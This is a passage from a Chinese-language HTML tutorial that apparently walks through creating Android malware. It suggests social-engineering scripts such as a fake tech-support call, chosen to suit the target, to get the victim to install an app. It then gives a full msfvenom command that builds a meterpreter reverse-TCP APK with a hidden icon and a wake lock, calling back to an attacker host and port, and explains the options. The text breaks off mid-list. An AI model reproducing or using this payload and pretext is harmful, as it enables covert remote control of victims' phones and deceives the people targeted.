    <a class="markup--anchor markup--p-anchor" data-href="https://www.iyouport.org/category/%e5%bf%83%e7%90%86%e5%ad%a6%e5%92%8c%e7%a4%be%e4%ba%a4%e5%b7%a5%e7%a8%8b/" href="https://www.iyouport.org/category/%e5%bf%83%e7%90%86%e5%ad%a6%e5%92%8c%e7%a4%be%e4%ba%a4%e5%b7%a5%e7%a8%8b/" rel="noopener" target="_blank">
    社交工程操纵
   </a>
   （“你好，这里是技术支持。我们已经检测到您手机上的异常活动，需要安装一个技术支持应用来监测这一活动 ……” 等等，
   <strong class="markup--strong markup--p-strong">
    根据您对目标的具体情况的了解选取最有可能让其中招的方法。
   </strong>
   <a class="markup--anchor markup--p-anchor" data-href="https://www.iyouport.org/%e5%85%85%e5%88%86%e4%ba%86%e8%a7%a3%e4%bd%a0%e7%9a%84%e6%94%bb%e5%87%bb%e7%9b%ae%e6%a0%87%ef%bc%9a%e8%bf%9b%e8%a1%8c%e7%94%b5%e5%ad%90%e9%82%ae%e4%bb%b6%e4%be%a6%e6%9f%a5%e7%9a%84%e7%ae%80%e5%8d%95/" href="https://www.iyouport.org/%e5%85%85%e5%88%86%e4%ba%86%e8%a7%a3%e4%bd%a0%e7%9a%84%e6%94%bb%e5%87%bb%e7%9b%ae%e6%a0%87%ef%bc%9a%e8%bf%9b%e8%a1%8c%e7%94%b5%e5%ad%90%e9%82%ae%e4%bb%b6%e4%be%a6%e6%9f%a5%e7%9a%84%e7%ae%80%e5%8d%95/" rel="noopener" target="_blank">
    <strong class="markup--strong markup--p-strong">
     侦查永远是最重要的第一步
    </strong>
   </a>
   ）。
  </p>
  <p class="graf graf--p">
   您可以使用 Metasploit 中的 msfvenom 工具来创建自定义的有效载荷。在本案例中，我们将把 payload/android/meterpreter/reverse_tcp 转换为Android.apk文件。
  </p>
  <p class="graf graf--p">
   要做到这一点，请输入以下命令：
  </p>
  <pre class="graf graf--p">msf &gt; msfvenom -p android/meterpreter/reverse_tcp AndroidHideAppIcon=true AndroidWakeLock=true LHOST=192.168.1.101 LPORT=6996 -f raw -o HackersAriseMalwareApp.apk AndroidMalware.apk</pre>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="416" data-image-id="1*M1s-07RdoxAbNMO7u282pQ.png" data-lazy-src="https://i2.wp.com/cdn-images-1.medium.com/max/1067/1*M1s-07RdoxAbNMO7u282pQ.png?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="2728" src="https://i2.wp.com/cdn-images-1.medium.com/max/1067/1*M1s-07RdoxAbNMO7u282pQ.png?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="416" data-image-id="1*M1s-07RdoxAbNMO7u282pQ.png" data-recalc-dims="1" data-width="2728" src="https://i2.wp.com/cdn-images-1.medium.com/max/1067/1*M1s-07RdoxAbNMO7u282pQ.png?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   其中：
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    msfvenom
   </strong>
   创建恶意有效载荷的命令
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    -p android/meterpreter_reverse_tcp
   </strong>
   安卓有效载荷的名称
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    AndroidHideAppIcon=true
   </strong>
   该选项可以让攻击者隐藏应用程序的图标，不让用户看到
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    AndroidWakeLock=true